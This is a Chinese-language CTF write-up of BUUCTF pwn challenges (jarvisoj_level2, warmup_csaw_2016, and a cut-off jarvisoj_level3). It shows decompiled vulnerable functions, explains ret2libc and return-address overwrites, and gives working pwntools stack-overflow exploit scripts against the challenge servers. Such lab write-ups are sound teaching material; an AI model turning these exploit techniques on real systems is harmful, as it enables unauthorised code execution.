



# pwn

## jarvisoj_level2
>做题人：郑林均
>url链接：https://buuoj.cn/challenges#jarvisoj_level2

下载文件后放linux用checksec一下



发现32位的，放进IDA看一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```
很容易发现有溢出点buf，read可以读进0x100，而buf只有0x88，再shift加f12，发现bin/sh

PIE保护没开
很容易想到ret2libc，查找bin/sh地址，system地址，可以开始构造payload了


理解什么是ret2libc，利用栈溢出，把程序的执行流劫持到已有的libc函数中，比如system
先理解在汇编语言32位计算机中函数调用的过程
```
.text:08048457 68 40 85 04 08                push    offset command                  ; "echo Input:"
.text:0804845C E8 BF FE FF FF                call    _system
```
可以看到，在调用函数之前，会将函数需要的参数压入栈中，然后调用函数即使用call的时候会，CPU会自动完成“push返回地址”的操作，最后才是进入到被调用函数的逻辑
```
[padding栈溢出直到返回地址] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址]
```
需要构造返回地址的原因是我们使用的是栈溢出覆盖返回地址从而达到调用函数，不是call指令达成的，因此不会自动完成push操作，所以要手动完成，返回地址可以是main函数或exit函数地址

对于参数“/bin/sh”部分，分为两种情况，即程序中含有该字符串和程序中没有该字符串

如果有该字符串，那么直接指明该字符串的位置即可

如果没有，那么需要直接在栈中写入该参数（一般放在payload的末尾），比如 b"/bin/sh\x00"，然后在payload中指明该参数的位置
```
[padding] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址] + b"/bin/sh\x00"

```
然后可以开始构造poc
```python
from pwn import*

r=remote('node5.buuoj.cn',29694)

system_adr=0x08048320 
sh_adr=0x0804A024
adr=0x08048480
payload=b'a'*(0x88+4)+p32(system_adr)+p32(adr)+p32(sh_adr)

r.sendline(payload)

r.interactive()

```
得到flag

##  warmup_csaw_2016
>做题人：郑林均
>url链接：[buuctf](https://buuoj.cn/challenges#warmup_csaw_2016)
先放进linux用checkse一下



发现是64位并且什么保护都没开，再放进IDA看看
查看主函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets((__int64)v5);
}
```
发现溢出点，用了gets函数，输入没有限制
然后找获得权限的函数
用shift+f12查看

发现有cat flag.txt
就用这个来获得flag
现在可以开始构造payload了
```python
from pwn import* #引用pwn库

r=remote('node5.buuoj.cn',28399)  #远程链接

system_adr=0x040060D #cat flag.txt函数的地址

payload=b'a'*(0x40+8)+p64(system_adr) //先输入0x40+8个垃圾数据导致其返回地址被覆盖，然后再加入flag函数地址

r.sendline(payload)

r.interactive()

```
得到flag

## jarvisoj_level3

>做题人：郑林均
>url链接：[jarvisoj_level3
1](https://buuoj.cn/challenges#jarvisoj_level3)

先放入linux用checksec一下，发现是32位的，开启了NX保护，然后放进IDA看看，很容易发现溢出点
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);                  // //溢出点
                                                
}
```


